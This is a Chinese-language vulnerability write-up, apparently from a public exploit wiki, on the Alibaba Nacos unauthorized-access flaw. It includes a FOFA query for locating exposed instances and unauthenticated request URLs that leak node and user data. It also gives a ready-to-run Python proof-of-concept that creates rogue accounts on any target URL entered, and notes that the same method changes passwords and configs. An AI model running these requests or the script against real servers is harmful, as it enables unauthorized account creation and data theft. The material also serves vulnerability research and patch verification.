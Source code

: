 # Alibaba Nacos 未授权访问漏洞

## 漏洞描述

2020年12月29日，Nacos官方在github发布的issue中披露Alibaba Nacos 存在一个由于不当处理User-Agent导致的未授权访问漏洞 。通过该漏洞，攻击者可以进行任意操作，包括创建新用户并进行登录后操作。

## 漏洞影响

> [!NOTE]
>
> Nacos <= 2.0.0-ALPHA.1

## FOFA

> [!NOTE]
>
> title="Nacos"

## 环境搭建

https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1

```shell
wget https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1
tar -zxvf nacos-server-2.0.0-ALPHA.1.tar.gz
./startup.sh -m standalone
```

然后访问 http://xxx.xxx.xxx.xxx:8848/nacos 即可，默认账号密码 **nacos/nacos**

![](image/nacos-1.png)

## 漏洞复现

可以再项目的 issues 中看到大量的关于越权的安全问题的讨论

https://github.com/alibaba/nacos/issues/1105

![](image/nacos-2.png)

![](image/nacos-3.png)

这里我们在登录后任意一个位置看一下请求，并在未授权的情况下看是否可以访问

![](image/nacos-4.png)

这里的请求url简化为

 http://xxx.xxx.xxx.xxx:8848/nacos/v1/core/cluster/nodes?withInstances=false&pageNo=1&pageSize=10&keyword=

退出用户后在前台访问这个 url

![](image/nacos-5.png)

可以发现以及泄露了 **ip节点** 等数据

同样我们查看用户列表的请求并在前台访问

 http://xxx.xxx.xxx.xxx:8848/nacos/v1/auth/users?pageNo=1&pageSize=9

![](image/nacos-7.png)

![](image/nacos-6.png)

这里可以发现对用户的请求是完全没有过滤的，可以通过未授权的情况获取用户的敏感信息

我们尝试创建用户并抓包

![](image/nacos-8.png)

返回下列创建成功

```
{"code":200,"message":"create user ok!","data":null}
```

同样的我们简化请求

```
POST /nacos/v1/auth/users?
username=peiqi&password=peiqi
```

![](image/nacos-9.png)

![](image/nacos-10.png)

看到有文章说要加上**User-Agent请求头**

```
User-Agent: Nacos-Server
```

但是大量测试之后发现好像是无关紧要的，没有请求头同样可以创建用户

> [!NOTE]
>
> 同样的原理也可以用于修改密码添加配置等

## 漏洞利用POC

> [!NOTE]
>
> 注意下大部分企业的 nacos的url为 /v1/auth/users ，而不是  /nacos/v1/auth/users
>
> 可以按目标情况自行修改

```python
import requests
import sys
import random
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: Nacos <= 2.0.0-ALPHA.1                                   \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    # vuln_url = target_url + "/nacos/v1/auth/users"
    vuln_url = target_url + "/v1/auth/users"
    headers = {
        "User-Agent": "Nacos-Server",
        "Content-Type": "application/x-www-form-urlencoded",
    }
    number = random.randint(0,999)
    data = "username=peiqi{}&password=peiqi".format(str(number))
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/nacos/v1/auth/users \033[0m".format(target_url))
        if "create user ok!" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 成功创建账户 peiqi{} peiqi\033[0m".format(str(number)))
        else:
            print("\033[31m[x] 创建用户请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)

```

![](image/nacos-11.png)

## Goby & POC

> Alibaba Nacos 未授权访问漏洞
>
> 扫描判断的只是是否可能存在，可以点击验证添加账户，根据响应判断是否成功
>
> 注意 Dir 目录选择

![](image/nacos-14.png)